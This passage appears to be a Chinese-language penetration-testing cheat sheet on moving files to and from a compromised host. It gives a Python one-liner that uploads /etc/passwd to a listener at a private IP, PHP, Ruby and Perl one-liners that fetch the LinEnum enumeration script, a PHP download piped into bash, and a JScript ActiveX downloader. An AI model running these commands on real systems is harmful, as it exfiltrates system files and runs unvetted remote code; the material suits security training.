 ```
python3 -m uploader #启用upload模块
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

**php使用File_get_contents（） 下载** 

```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

`file_get_contents（）` 和 `file_put_contents（）` 的替代方案是 [fopen（） 模块](https://www.php.net/manual/en/function.fopen.php)

**php使用fopen（） 下载** 

```shell-session
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

**PHP 下载文件并将其通过管道传输到 Bash**

```shell-session
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Ruby下载文件**

```
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

**Perl 下载文件**

```shell-session
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

**JavaScript**

创建一个名为wget.js的文件

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
